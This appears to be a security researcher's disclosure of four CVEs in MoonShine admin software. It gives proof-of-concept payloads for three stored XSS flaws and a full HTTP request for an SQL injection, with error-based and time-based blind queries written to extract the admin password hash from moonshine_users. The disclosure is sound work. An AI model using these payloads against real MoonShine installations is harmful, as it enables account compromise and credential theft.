 # MoonShine Software Vulnerability Disclosure
Author: Giacomo Lenzini - GiacoLenzo2109
## CVE-2025-51487 - Stored XSS
### Description
A Stored Cross-Site Scripting (XSS) vulnerability exists in MoonShine version < 3.12.5, allowing remote attackers to store and execute arbitrary JavaScript in the browser of a user by including a payload using "javascript:", instead of the expected HTTPS protocol, in the CutCode *Link* parameter when creating/updating a new Article.
### CVSS 3.1 - 4.5 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
The XSS is related to the creation of a new article:  
1. Under the sidebar: *Blog -> Articles*

2. Under *Link -> CutCode* insert the following payload under: `javascript:alert("XSS")`
![/images/CVE-2025-51487_1.png](/images/CVE-2025-51487_1.png)


3. Complete all other fields and save

4. Load all articles and check for your last article saved. Under the link field you will see your payload. Click on it, a popup will be opened showing the message "XSS"
![/images/CVE-2025-51487_2.png](/images/CVE-2025-51487_2.png)
![/images/CVE-2025-51487_3.png](/images/CVE-2025-51487_3.png)

## CVE-2025-51488 - Stored XSS
### Description
A Stored Cross-Site Scripting (XSS) vulnerability exists in MoonShine version < 3.12.4, allowing remote attackers to store and execute arbitrary JavaScript in the browser of a user by including a malicious payload in the *Name* parameter when creating a new Admin.
### CVSS 3.1 - 4.9 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
The issue is related to the function to add a new Admin.  

1. Under the Sidebar "System" tab: *Admins -> Create*

2. Insert the following payload under the *Name* input field: `<img src=x onerror=alert("XSS")>`
![/images/CVE-2025-51488_1.png](/images/CVE-2025-51488_1.png)

3. Save

4. Under the sidebar select *Blog -> Articles*: now a popup will be opened showing the message "XSS"  
![/images/CVE-2025-51488_2.png](/images/CVE-2025-51488_2.png)

## CVE-2025-51489 - Reflected XSS via Unrestriced File Upload
### Description
A Stored Cross-Site Scripting (XSS) vulnerability exists in MoonShine version < 3.12.5, allowing remote attackers to upload a malicious SVG file in *Files -> Thumbnail* when creating/updating an Article and correctly execute arbitrary JavaScript in the victim's browser when the file link is opened by the victim.
### CVSS 3.1 - 4.5 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
When creating a new Article (*Blog -> Articles*), an attacker could upload the following SVG under *Files -> Thumbnail* field.
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(255,0,0);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("XSS!");
   </script>
</svg>
```
![/images/CVE-2025-51489_1.png](/images/CVE-2025-51489_1.png)
![/images/CVE-2025-51489_2.png](/images/CVE-2025-51489_2.png)


## CVE-2025-51510 - SQL Injection
### Description
MoonShine was discovered to contain a SQL injection vulnerability via the Data parameter under the Blog module when using the moonshine-tree-resource component. An example of the use of this vulnerable component can be found under the public MoonShine Software demo based on MoonShine Software 3.12.5 (https://github.com/moonshine-software/demo-project - commit 72a1d80bf23de6c3457205630eb25409432bdbe0).

The vulnerable component is the following https://github.com/lee-to/moonshine-tree-resource (version < 2.0.2).
### CVSS 3.1 - 4.9 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
To correctly intercept the vulnerable request, change the position of a category (for example, the one highlighted in blue) by moving it up/down.
![/images/CVE-2025-51510.png](/images/CVE-2025-51510.png)

Vulnerable SQLi request, injecting a payload inside the *data* request field that shows the database version.
```
POST /admin/category-resource/sortable HTTP/1.1
Host: localhost
Content-Length: 431
sec-ch-ua-platform: "macOS"
X-XSRF-TOKEN: <REPLACE>
sec-ch-ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuLTeqJXF3L06Er3R
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/admin/resource/category-resource/category-index-page
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: XSRF-TOKEN=<REPLACE>; laravel_session=<REPLACE>

------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="parent"


------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="index"

1
------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="data"

(SELECT @@version)
------WebKitFormBoundaryuLTeqJXF3L06Er3R--
```

Here an example of the dumped db version:
![/images/CVE-2025-51510_1.png](/images/CVE-2025-51510_1.png)

It’s possible to manually exploit this SQLi vulnerability by placing the following payload inside the *data* form parameter. The following payload is specifically crafted to retrieve the *admin* password from the *moonshine_users* table.

In order to extract the desired information, the value returned by the SELECT statement must be concatenated with a numeric value. This operation causes the database to throw an exception (e.g. `SQLSTATE[22007]: Invalid datetime format: 1292 Truncated incorrect DOUBLE value: '<VALUE_SELECTED>'`), which in turn includes the selected data inside the response as shown in the figure below.

```
(SELECT password || 1 FROM moonshine_users WHERE id=1)
```

-> Remember not to create queries that use commas, since the backend replaces commas with ` THEN 0 WHEN ` before executing them in the database.

![/images/CVE-2025-51510_3.png](/images/CVE-2025-51510_3.png)

This vulnerability can also be exploited without concatenating the value with an integer, by using a blind method that relies on measuring response times.

```
(SELECT password FROM moonshine_users WHERE id=1 AND BINARY SUBSTRING(password FROM <LETTER_POSITION> FOR 1)='<CHARACTER>' AND SLEEP(5))
```

This query is used in a time-based blind SQL injection to extract a user’s password one character at a time without using commas. It checks if a specific character at a certain position matches a guessed value, and if true, delays the response by a set amount of time, allowing to infer the correct character from the response delay.

It's possible to run the attached Python script ([CVE-2025-51510.py](CVE-2025-51510.py)), it was possible to extract *admin* hash from *moonshine_users* table.

Replace the cookies within the script with valid ones.

The following image shows the *admin* hash correctly dumped character by character:
![/images/CVE-2025-51510_2.png](/images/CVE-2025-51510_2.png)

